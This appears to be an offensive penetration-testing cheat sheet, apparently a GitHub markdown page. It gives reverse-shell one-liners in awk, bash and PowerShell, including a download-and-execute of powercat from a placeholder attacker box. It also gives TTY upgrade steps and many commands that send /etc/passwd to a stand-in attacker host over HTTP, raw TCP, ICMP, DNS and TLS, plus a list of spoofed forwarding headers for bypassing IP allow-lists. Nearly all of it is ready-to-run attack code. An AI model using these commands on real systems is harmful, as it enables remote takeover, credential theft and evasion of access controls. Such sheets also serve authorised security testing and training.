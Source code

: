 * [Reverse Shell](#reverse-shell)
	* [Awk](#awk)
	* [Bash TCP](#bash-tcp)
	* [Bash UDP](#bash-udp)
	* [PowerShell](#powershell)
* [Spawn TTY Shell](#spawn-tty-shell)
	* [Python](#python)
	* [Perl](#perl)
* [Extension Linux](#extension-linux)
* [Exfiltration - Linux](#exfiltration-linux)
* [IP address bypass](#ip-address-bypass)
* [Useful Regex](#useful-regex)
* [References](#references)

## Reverse Shell
### Awk
```awk
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### Bash TCP
```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```

### Bash UDP
```bash
Victim:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```

### Powershell
```powershell
Victim:
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"

Attacker:
git clone https://github.com/besimorhino/powercat.git
cd powercat
python3 -m http.server 8080
nc -lvp 1337
```

## Spawn TTY Shell
### Python
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Python extended
```python
(victim) python3 -c "import pty; pty.spawn('/bin/bash')"
(hacker) Ctrl+Z
(hacker) Enter
(hacker) stty raw -echo
(hacker) fg (you will not see your keystrokes -- trust yourself and hit Enter)
(hacker) Enter
(hacker) Enter
(hacker) export TERM=xterm
```

### Perl
```perl
perl -e 'exec "/bin/bash";'
```
## Exfiltration - Linux
```bash
VICTIM:
cat /etc/passwd | curl -F "data=@-" http://xxx.xxx.xxx.xxx 

ATTACKER:
nc -lvp 80
```
```bash
VICTIM:
cat /etc/passwd | base64 > /dev/tcp/xxx.xxx.xxx.xxx/80

ATTACKER:
netcat -lvp 80 | base64 -d
```
```bash
VICTIM:
cat /etc/passwd | base 64 > /dev/tcp/xxx.xxx.xxx.xxx/443 

ATTACKER:
netcat -lvp 443 | base64 -d
```
```bash
VICTIM:
wget --post-file=/etc/passwd xxx.xxx.xxx.xxx 

ATTACKER:
nc -lvp 80
```
```bash
VICTIM:
curl -X POST -d @data.txt xxx.xxx.xxx.xxx

ATTACKER:
nc -lvp 80
```
```bash
VICTIM:
whois -h xxx.xxx.xxx.xxx -p 43 `cat /etc/passwd`

ATTACKER:
nc -lvp 43
```
```bash
VICTIM:
bash -c 'echo -e "POST / HTTP/0.9\n\n$(</etc/passwd)"' > /dev/tcp/xxx.xxx.xxx.xxx/1234

ATTACKER:
nc -lvp 1234
```
```bash
VICTIM:
openssl s_client -quiet -connect xxx.xxx.xxx.xxx:1234 < "/etc/passwd"

ATTACKER:
openssl req -x509 -newkey rsa:4096 -keyout /tmp/key.pem -out /tmp/cert.pem -days 365 -nodes ; openssl s_server -quiet -key /tmp/key.pem -cert /tmp/cert.pem -port 1234 > /tmp/dump ; cat /tmp/dump
```
```bash
VICTIM:
cat /etc/passwd | xxd -p -c 15 | while read line; do ping -p $line -c 1 xxx.xxx.xxx.xxx; done

ATTACKER:
/usr/sbin/tcpdump 'icmp and src host 1.2.3.4' -w /tmp/icmp_file.pcap ; echo "0x$(tshark -n -q -r /tmp/icmp_file.pcap -T fields -e data.data | tr -d '\n' | tr -d ':')" | xxd -r -p
```
```bash
VICTIM:
cat /etc/passwd | xxd -p -c 8 | while read line; do host $line.7.7.7.7 xxx.xxx.xxx.xxx ; done

ATTACKER:
/usr/sbin/tcpdump -l -n port 53 | grep -oP "(?=\? ).*(?<=7.7.7.7)"
```
```bash
VICTIM:
tar zcf - --absolute-names /etc/passwd | ssh -p2233 user@xxx.xxx.xxx.xxx "cd /tmp/; tar zxpf -"

```
```bash
VICTIM:
python -m SimpleHTTPServer 7777

ATTACKER:
wget xxx.xxx.xxx.xxx:7777/database.sql
```
```bash
VICTIM:
php -S 0.0.0.0:7777

ATTACKER:
wget xxx.xxx.xxx.xxx:7777/database.sql
```
```bash
VICTIM:
telnet xxx.xxx.xxx.xxx 5555 < /etc/passwd

ATTACKER:
netcat -lp 5555
```

## IP address bypass
```
CACHE_INFO: 127.0.0.1
CF_CONNECTING_IP: 127.0.0.1
CF-Connecting-IP: 127.0.0.1
CLIENT_IP: 127.0.0.1
Client-IP: 127.0.0.1
COMING_FROM: 127.0.0.1
CONNECT_VIA_IP: 127.0.0.1
FORWARD_FOR: 127.0.0.1
FORWARD-FOR: 127.0.0.1
FORWARDED_FOR_IP: 127.0.0.1
FORWARDED_FOR: 127.0.0.1
FORWARDED-FOR-IP: 127.0.0.1
FORWARDED-FOR: 127.0.0.1
FORWARDED: 127.0.0.1
HTTP-CLIENT-IP: 127.0.0.1
HTTP-FORWARDED-FOR-IP: 127.0.0.1
HTTP-PC-REMOTE-ADDR: 127.0.0.1
HTTP-PROXY-CONNECTION: 127.0.0.1
HTTP-VIA: 127.0.0.1
HTTP-X-FORWARDED-FOR-IP: 127.0.0.1
HTTP-X-IMFORWARDS: 127.0.0.1
HTTP-XROXY-CONNECTION: 127.0.0.1
PC_REMOTE_ADDR: 127.0.0.1
PRAGMA: 127.0.0.1
PROXY_AUTHORIZATION: 127.0.0.1
PROXY_CONNECTION: 127.0.0.1
Proxy-Client-IP: 127.0.0.1
PROXY: 127.0.0.1
REMOTE_ADDR: 127.0.0.1
Source-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Via: 127.0.0.1
VIA: 127.0.0.1
WL-Proxy-Client-IP: 127.0.0.1
X_CLUSTER_CLIENT_IP: 127.0.0.1
X_COMING_FROM: 127.0.0.1
X_DELEGATE_REMOTE_HOST: 127.0.0.1
X_FORWARDED_FOR_IP: 127.0.0.1
X_FORWARDED_FOR: 127.0.0.1
X_FORWARDED: 127.0.0.1
X_IMFORWARDS: 127.0.0.1
X_LOCKING: 127.0.0.1
X_LOOKING: 127.0.0.1
X_REAL_IP: 127.0.0.1
X-Backend-Host: 127.0.0.1
X-BlueCoat-Via: 127.0.0.1
X-Cache-Info: 127.0.0.1
X-Forward-For: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-For: 127.0.0.1, 127.0.0.1, 127.0.0.1
X-Forwarded-Server: 127.0.0.1
X-Forwared-Host: 127.0.0.1
X-From-IP: 127.0.0.1
X-From: 127.0.0.1
X-Gateway-Host: 127.0.0.1
X-Host: 127.0.0.1
X-Ip: 127.0.0.1
X-Original-Host: 127.0.0.1
X-Original-IP: 127.0.0.1
X-Original-Remote-Addr: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Originally-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyMesh-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-True-Client-IP: 127.0.0.1
XONNECTION: 127.0.0.1
XPROXY: 127.0.0.1
XROXY_CONNECTION: 127.0.0.1
Z-Forwarded-For: 127.0.0.1
ZCACHE_CONTROL: 127.0.0.1
```
